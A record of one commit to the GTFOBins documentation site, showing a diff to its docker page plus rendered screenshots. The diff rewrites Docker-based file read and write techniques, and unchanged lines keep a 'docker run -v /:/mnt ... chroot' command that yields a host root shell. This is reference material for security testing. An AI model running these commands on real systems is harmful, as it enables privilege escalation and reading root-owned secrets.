

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide and 900 px high, scrolled down 250 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Improve and generalize docker file read and write

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -6,19 +6,21 @@ functions:
     - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
       code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
   file-write:
-    - description: Write any file by copying it to an existing container and back to the target destination on the host. The file will be owned by root.
+    - description: Write any file by copying it to an existing container and back to the target destination on the host.
       code: |
         CONTAINER_ID=existing-docker-container
-        echo "sensitive config" > /tmp/file.txt
-        sudo docker cp /tmp/file.txt $CONTAINER_ID:/tmp/file.txt
-        sudo docker cp $CONTAINER_ID:/tmp/file.txt /target/destination.txt
+        TF=$(mktemp)
+        echo "DATA" > $TF
+        docker cp $TF $CONTAINER_ID:$TF
+        docker cp $CONTAINER_ID:$TF file_to_write
   file-read:
     - description: Read any file by copying it to an existing container and back to a new location on the host.
       code: |
         CONTAINER_ID=existing-docker-container
-        sudo docker cp /root/protected.txt $CONTAINER_ID:/tmp/file.txt
-        sudo docker cp $CONTAINER_ID:/tmp/file.txt /home/user/file.txt
-        cat /home/user/file.txt
+        TF=$(mktemp)
+        docker cp file_to_read $CONTAINER_ID:$TF
+        docker cp $CONTAINER_ID:$TF $TF
+        cat $TF
   sudo:
     - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
       code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
